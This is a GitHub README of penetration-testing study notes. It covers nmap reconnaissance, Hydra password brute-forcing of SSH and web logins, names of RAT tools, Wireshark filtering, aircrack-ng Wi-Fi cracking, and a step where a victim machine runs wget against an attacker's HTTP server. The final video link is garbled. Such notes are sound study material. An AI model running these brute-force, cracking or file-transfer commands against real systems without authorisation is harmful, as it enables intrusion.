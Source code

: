 # OffSec-Notes
Repository created for keeping notes on various topics, vulnerabilities and tools useful in penetration testing. 

# Reconnaissance

### Some Common Ports

 Port     | Service  | Protocol          |
| --------|:--------:| -----------------:|
| 21      | FTP      |    TCP, UDP, SCTP |
| 22      | SSH      |    TCP, UDP, SCTP |
| 137     | NetBIOS  |    TCP, UDP       |
| 161     | SNMP     |    UDP            |
| 445     | SMB      |    TCP, UDP       |
| 3389    | RDP      |    TCP            |

<details open>
<summary>nmap</summary>

```sudo nmap -sn 192.168.0.0/24``` - Check for hosts only, disable port scan (-sn).

```sudo nmap -sn --exclude [IP] 192.168.0.0/24``` - Check for hosts only, disable port scan (-sn), exclude a specific url (--exclude).

```nmap -sT [IP]``` - Use TCP connect scan (-sT) if not root/sudo user. Only option for non sudoers.

```sudo nmap [IP] ``` -  By default nmap uses TCP SYN scan (-sS), but this should be used only from root/sudo user.

```sudo nmap -sV -O -v [IP] -p- -oN [Filename.txt]``` - Default SYN scan with enabled version detection (-sV) and OS detection (-O). Additional flags - verbose mode (-v), all ports (-p-), output to .txt file (-oN). 

```sudo nmap -A [IP]``` - Default SYN scan with enabled OS detection, version detection, script scanning, and traceroute (-A).

```sudo nmap --script http-methods [IP]``` - Default SYN scan with specific script (--script). As an example script *http-methods* (enumerates allowed HTTP methods) is used.

```sudo nmap -sU [IP]``` - Performs UDP scan (-sU).

```-n``` - Tells Nmap to never do reverse DNS resolution on the active IP addresses it finds. Since DNS can be slow even with Nmap's built-in parallel stub resolver, this option reduces scanning times.

Useful nmap scripts:

 Script   | Service  | Description |
|:--------|:--------|:-----------|
| smb-os-discovery.nse    | SMB (445)  | Enumerate OS, domain name,etc. |
| smb-enum-users.nse      | SMB (445)  | Used to enumerate all users on remote Windows system using SAMR enumeration and LSA bruteforcing. |
| smb-enum-shares.nse     | SMB (445)  | SMB shares. |
| nbstat.nse     | NetBIOS (137)  | NetBIOS enumeration, use -sU for UDP. |

</details>

# Brute-force
<details open>
<summary>Hydra</summary>

```sudo hydra -l <username> -P <wordlist> [URL] ssh``` - Basic Hydra command for brute-forcing ssh password. Works similarly with other protocols such as FTP.

```sudo hydra -l <username> -P <wordlist> [base_URL] http-post-form "<path>:<login_credentials>:<invalid_response>"``` - Hydra command for HTTP POST form. Path need to be specified seperately from base URL.

</details>

# Malware Threats

<details>
<summary>RAT's</summary>

You need to target the right IP and port number (try default first).
You need to use the right tool from the available.

Example tools to establish a connection to a RAT:
- njRAT
- MoSucker
- ProRat
- Theef
- HTTP RAT

</details>

<details>
<summary>Malware Analysis Tools</summary>

https://www.hybrid-analysis.com/ - Online tool.

**DIE (Detect it Easy)** - Scan and analyze .elf files.

**PE Explorer** - Find entry point address.

</details>

# Traffic Sniffing
<details open>
<summary>Wireshark</summary>

```tcp.flags.syn==1``` - Filter apply example, this one searches for SYN packets.

Follow streams to check for interesting data. Rightclick on packet -> Follow -> TCP Stream (can be other protocols).

To check for files in the conversations use export option. File -> Export -> HTTP (can be other protocol) -> sort by content-type to see if there are any .txt files for example.

**To followup on something like a DoS or DDoS attack go into Statistics -> Conversations and sort by packet count or bytes sent.**

![image](https://github.com/MaxLazerhawk/OffSec-Notes/assets/53828427/b0417cc6-a20b-450a-bce0-4588031e210e)


### View capture file properties to look for comments.
![image](https://github.com/MaxLazerhawk/OffSec-Notes/assets/53828427/39f702e0-c213-457b-9695-cb336a4488b9)

**IOT** ```mqtt``` to filter mqtt trafic. Publish message might be important.

</details>

# Transfering Files

```python3 -m http.server 9000``` - Set up HTTP server on attacjubg machine.

```wget http://[ATTACKING_IP]:9000/[filename]``` - Use on victim machine to download.

OR use SCP, SFTP or FTP protocols.

```scp /path/to/local/file.txt <user>@$IP:$PORT:/path/to/remote/``` - SCP file transfer example.

# Finding Files on Linux

```find . -name flag1.txt``` - find the file named “flag1.txt” in the current directory.

```find /home -name flag1.txt``` - find the file names “flag1.txt” in the /home directory.

```find / -type d -name config``` - find the directory named config under “/”.

```find / -type f -perm 0777``` - find files with the 777 permissions (files readable, writable, and executable by all users).

```find / -perm a=x``` - find executable files.

```find /home -user frank``` - find all files for user “frank” under “/home”.

```find / -mtime 10``` - find files that were modified in the last 10 days.

```find / -atime 10``` - find files that were accessed in the last 10 day.

```find / -cmin -60``` - find files changed within the last hour (60 minutes).

```find / -amin -60``` - find files accesses within the last hour (60 minutes).

```find / -size 50M``` - find files with a 50 MB size.
    
```find / -writable -type d 2>/dev/null``` - Find world-writeable folders.

```find / -perm -222 -type d 2>/dev/null``` - Find world-writeable folders.

```find / -perm -o w -type d 2>/dev/null``` - Find world-writeable folders.

```find / -perm -o x -type d 2>/dev/null``` - Find world-executable folders.




# Wireless Attacks
<details>
<summary>aircrack-ng</summary>
Used to crack .cap files. WEP, WPA/WPA2 wireless networks.

```aircrack-ng [filename].cap```

- Works for WEP.
- If the capture file has sufficient packets aircrack will be able to crack it.

```aircrack-ng [filename].cap -w [file]``` 

- Works for WPA.
- Dictionary added (-w).

</details>

# Useful Links

### Notes:

https://github.com/infovault-Ytube/CEH-Practical-Notes

https://github.com/CyberSecurityUP/Guide-CEH-Practical-Master

https://github.com/TheCyberpunker/CEH-Practical-Notes

https://chirag-singla.notion.site/chirag-singla/CEH-Practical-Preparation-7f2b77651cd144e8872f2f5a30155052

https://ceh-practical.cavementech.com/

https://infosecwriteups.com/privileges-escalation-techniques-basic-to-advanced-in-linux-973cb62cbe8d

### Tool Documentation:

https://github.com/horsicq/Detect-It-Easy

### Videos

https://www.youtube.com/watch?v=VuIYNxazbN0&list=PLZEA2EJpqSWfouVNPkl37AWEVCj6A2mdz&index=9

https://www.youtube.com/watch?v=4JzLg7wjHm8&list=PL-Fa25Pu8l6wV1Se-bPY-Onc6t_mUTZHW

https://www.youtube.com/watch?v=`x31mz'|F='op!'!jmA|
